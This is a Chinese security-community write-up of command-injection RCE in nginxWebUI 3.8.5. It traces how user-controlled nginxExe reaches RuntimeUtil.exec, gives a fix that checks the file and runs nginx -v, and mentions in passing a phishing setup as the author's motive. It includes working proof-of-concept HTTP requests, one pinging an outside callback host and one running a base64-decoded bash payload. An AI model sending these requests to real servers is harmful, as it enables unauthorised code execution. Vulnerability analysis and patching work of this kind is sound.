# 安服？开发！记一次 nginxWebUI3.8.5 版本的 RCE 分析及修复建议 - 先知社区

安服？开发！记一次 nginxWebUI3.8.5 版本的 RCE 分析及修复建议

- - -

## 前言

临时接到通知说要防个网站用作钓鱼，在一系列的阻碍之下，只好自己手搓一套钓鱼框架，第一时间也就想到了 nginx，于是乎我就想起来前段时间审计过的 nginxWebUI 正好方便拿来使用，UI 操作就是快。但印象里当时即使是最新版的 nginxWebUI 后台仍存在 RCE，因此重新审计回看这套代码，顺便当一回开发，在不影响业务的前提下如何修复漏洞。

## 历史漏洞

### 漏洞分析

其实大概在 3.6.2 版本之后，nginxWebUI 就开始陆续修复`/adminPage/conf/runCmd`接口的 rce，但 RCE 漏洞仍然存在，在 3.6.5 之后针对该接口代码就基本没有什么改动了。这里先看一下作者之前的修复方式。  
`com.cym.controller.adminPage.ConfController#isAvailableCmd`承担了防御命令执行的重大使命  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024130-fe8dcff8-d1b1-1.png)

1.  可控的 cmd 先判断是否符合 switch 中各项条件，若一致则提前返回 true
    
    ```plain
    private boolean isAvailableCmd(String cmd) {
    // 检查命令格式
     switch (cmd) {
         case "net start nginx":
         case "service nginx start":
         case "systemctl start nginx":
         case "net stop nginx":
         case "service nginx stop":
         case "systemctl stop nginx":
         case "taskkill /f /im nginx.exe":
         case "pkill nginx":
             return true;
         default:
             break;
     }
    ```
    
2.  前端传入 cmd 是否与 nginx 相关命令一致
    
    ```plain
    if (cmd.equals(settingService.get("nginxExe") + " -s stop" + dir)) {
     return true;
    }
    if (cmd.equals(settingService.get("nginxExe") + " -c " + settingService.get("nginxPath") + dir)) {
     return true;
    }
    ```
    
    这种方式看似将 cmd 变为不可控变量交给`RuntimeUtil.exec`函数执行，实际上 nginxExe 在系统中也是用户可控的，其作用是用户设定 nginx 路径等相关配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024307-3826e934-d1b2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024335-48ec4a52-d1b2-1.png)  
`ToolUtils.handlePath`会过滤这些参数中的特殊字符

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024353-5388df16-d1b2-1.png)  
所以攻击者只需要将 nginxExe 与 cmd 设定为特定 payload，使上文`cmd.equals`成立即可。不过即使这样也无法避免的会将`" -c " + settingService.get("nginxPath") + dir`、`" -s stop" + dir`带入到`RuntimeUtil.exec`中执行，此时 linux 中的分隔符也已被过滤，诸如反弹 shell 之类的大部分命令都无法执行，因此这里对漏洞的修复也算是收敛了攻击面。笔者这里能想到的是只能执行诸如 ping 这种含有-c 或者其他相关命令了，如有错误欢迎指正。

### 漏洞复现

此处我想满足的是`com.cym.controller.adminPage.ConfController#isAvailableCmd`的这段条件

```plain
if (cmd.equals(settingService.get("nginxExe") + " -c " + settingService.get("nginxPath") + dir)) {
    return true;
}
```

当传入的 nginxExe、nginxPath 传入如下内容后，cmd 则为`ping${IFS}jitmszgnmy.dgrh3.cn -c 1`

```plain
POST http://localhost:8085/adminPage/conf/saveCmd HTTP/1.1
Host: localhost:8085

nginxExe=ping${IFS}jitmszgnmy.dgrh3.cn&nginxPath=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024629-b0d948a4-d1b2-1.png)  
成功调用 cmd 执行 ping 命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024640-b7425906-d1b2-1.png)

## 迟迟未修的 RCE 漏洞

上文中分析到 nginxExe 可控，代码中还有多处对该参数执行 RCE 等相关操作。例如：`com.cym.controller.adminPage.ConfController#check`，跟上文不同，该处 RCE 可执行任意代码。

### 漏洞分析

nginxExe 可控，当其为空时，则会从`settingService.get`中获取，且被`ToolUtils.handlePath`过滤处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024721-cfb122d8-d1b2-1.png)  
假如不为空，则直接被拼接至 cmd 中，交由`RuntimeUtil.execForStr`执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024734-d7ba986a-d1b2-1.png)  
然而就算到这一步又会碰到一个老问题：命令无法执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024745-ddd2003a-d1b2-1.png)  
但 shell 中是可以正常执行的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024752-e2719790-d1b2-1.png)  
这里涉及到的是老生常谈的知识点：java 命令执行，这里就不再赘述，简单分析下此处的原因：  
`cn.hutool.core.util.RuntimeUtil#cmdSplit`会以空格为分隔符将 cmd 分割

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024808-ebd26756-d1b2-1.png)  
cmd 数组接着会传递至`java.lang.ProcessBuilder#start`函数，在 该方法中将 cmdarry 第一个参数 `cmdarry[0]` 当作要执行的命令，把后面的 `cmdarry[1:]`作为命令执行的参数转换成 byte 数组 argBlock，此时执行语义已经被更改，正常在 shell 中能够执行的语句也就无法执行了。而在 bash 和 base64 的帮助下可以打通这里的 RCE。  
另外，该接口传入的 json 参数需要符合特定 json 类型要求才能成功触发 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024830-f8e6b866-d1b2-1.png)

### 漏洞复现

功能点在检验文件处，nginx 执行命令则为可控的 nginxExe 参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024844-0160b1f4-d1b3-1.png)

```plain
POST http://localhost:8085/adminPage/conf/check HTTP/1.1
Host: localhost:8085

nginxPath=&nginxExe=bash+-c+{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}&nginxDir=&json={"nginxPath":"","nginxContent":"","subContent":[],"subName":[]}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223024901-0b20dd40-d1b3-1.png)

## 未知攻，焉知防

该接口的 RCE 至今未修，可能作者也是比较无奈不知该如何修正，因为 nginxExe 为用户设定 nginx 文件路径，从功能角度来看该接口是用来执行 nginx 命令来校验 conf 文件，传入参数可控 + 必不可少的需要直接执行命令，除了黑名单似乎没有什么好办法了。  
而我这里想到的修复方式是：

1.  将全局 nginxExe 都通过`ToolUtils.handlePath`处理
2.  验证用户传入参数是否为文件  
    既然 nginxExe 可控，且含义为 nginx 路径，因此直接可以用 isFile 函数来判断用户传入参数是否为文件
3.  验证文件是否为 nginx  
    这里我的方案是执行 nginx -v 操作，通版本号的输出来判断是否为 nginx。原本想的是计算 hash 来进行比对，但 nginx 毕竟是编译使用的，比对 hash 并不现实。如果有师傅有其他的 good idea 欢迎来提！  
    添加代码如下：
    
    ```plain
    try{
     //既然 nginxExe 可控，且含义为 nginx 路径，因此直接可以用 isFile 函数来判断用户传入参数是否为文件
     File file = new File(nginxExe);
     boolean isFile = file.isFile();
     if (!isFile){
         return renderSuccess("not nginx filepath");
     }else {
         //如果是文件，执行-v 操作，来判断是否为 nginx
         rs = RuntimeUtil.execForStr(nginxExe + " -v");
         if (!rs.contains("nginx version")){
             return renderSuccess("not nginx");
         }
     }
    }catch (Exception e){
     logger.error(e.getMessage(), e);
     rs = e.getMessage().replace("\n", "<br>");
    }
    ```
    
    实际效果如下：  
    正常进行文件校验：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223025037-4482488a-d1b3-1.png)  
用户输入恶意代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223025045-49a0889a-d1b3-1.png)  
执行其他非 nginx 文件，实际这里也是通过调用 RuntimeUtill 执行来验证是否为 nginx，假如服务器已经被上传了马子，通过 nginxwebui 来触发执行马子，那谁也拦不住哈哈，只能说尽可能的收缩攻击利用面，增大漏洞利用难度  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240223025723-36d5963c-d1b4-1.png)

## 总结

nginxWebUI 的 rce 虽然是个老洞，但历时那么久仍未完全修复也是比较令人遗憾的。开发的目的毫无疑问是设计一套方便开发、运维人员管理 nginx 的 ui 产品。一键启动固然方便，但从安全角度来看，在配置文件校验、文件启动功能上为了方便用户而造成的任意代码执行，是完全可以避免的。还是那句话，永远不能相信前端用户的输入，假如这套系统做的绝一点，直接添加一键安装编译 nginx 的功能（前端版本号可控 - 下载对应文件 - 解压编译），这样也就一劳永逸了。  
至此也算是收敛了 RCE 利用面，开发没打的补丁，臭安服帮他打～ 这样系统开在公网也心安了一丝丝。
